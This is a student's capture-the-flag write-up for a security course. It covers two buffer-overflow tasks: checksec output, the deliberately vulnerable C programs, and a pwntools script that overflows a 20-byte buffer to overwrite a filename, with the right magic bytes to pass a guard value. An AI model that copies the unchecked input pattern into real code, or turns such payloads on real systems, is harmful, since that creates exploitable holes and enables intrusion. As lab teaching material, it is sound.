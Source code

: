 # **Week #5**

## **CTF**

### **Task 1**

#### **Checksec**

- No address randomization
- Regions in the memory with RWX permissions
- No cannaries in the stack
- Architecture is x86
- Stack has execute permissions (NX -no execute- disabled)

#### **Program analysis**

- No check for overflows
- File opened is saved in an array which is exactly above buffer
- Buffer value is read from input
- Flag is saved in another file called flag.txt


    #include <stdio.h>
    #include <stdlib.h>

    int main() {
        char meme_file[8] = "mem.txt\0";
        char buffer[20];

        printf("Try to unlock the flag.\n");
        printf("Show me what you got:");
        fflush(stdout);
        scanf("%28s", &buffer);

        printf("Echo %s\n", buffer);

        printf("I like what you got!\n");

        FILE *fd = fopen(meme_file,"r");

        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }


        fflush(stdout);

        return 0;
    }

#### **Attack**

- Cause a buffer overflow on 'buffer' by writing more than 20 bytes (space it has initialized)
- After 20 bytes/chars, write what you want the array containing the name of file to be open to have (write flag.txt)
- This way the file that will be open is flag.txt

![Terminal print of attack and checksec](img/Week5/CTF-task1.png)

### **Task 2**


#### **Checksec**

- Checksec gives the same Information

![Terminal print Checksec](img/Week5/CTF-checksec2.png)

#### **Program analysis**

- The program implemented a minor defense. The new version has another buffer in between the buffer we overflow and the target one
- The value of this one is checked to see if it was adulterated

    #include <stdio.h>
    #include <stdlib.h>

    int main() {
        char meme_file[8] = "mem.txt\0";
        char val[4] = "\xef\xbe\xad\xde";
        char buffer[20];

        printf("Try to unlock the flag.\n");
        printf("Show me what you got:");
        fflush(stdout);
        scanf("%32s", &buffer);
        if(*(long*)val == 0xfefc2122) {
            printf("I like what you got!\n");

            FILE *fd = fopen(meme_file,"r");

            while(1){
                if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                    printf("%s", buffer);
                } else {
                    break;
                }
            }
        } else {
            printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
        }

        fflush(stdout);

        return 0;
    }


### **Attack**
- To bypass this all we need to do is write the correct sequence of characters in this buffer, which we did by editing the python exploit file

![Terminal print of attack](img/Week5/CTF-attack2.png)


    #!/usr/bin/python3
    from pwn import *

    DEBUG = False

    if DEBUG:
        r = process('./program')
    else:
        r = remote('ctf-fsi.fe.up.pt', 4000)

    r.recvuntil(b":")
    r.sendline(b"aaaaaaaaaaaaaaaaaaaa\x22\x21\xfc\xfeflag.txt")
    r.interactive()

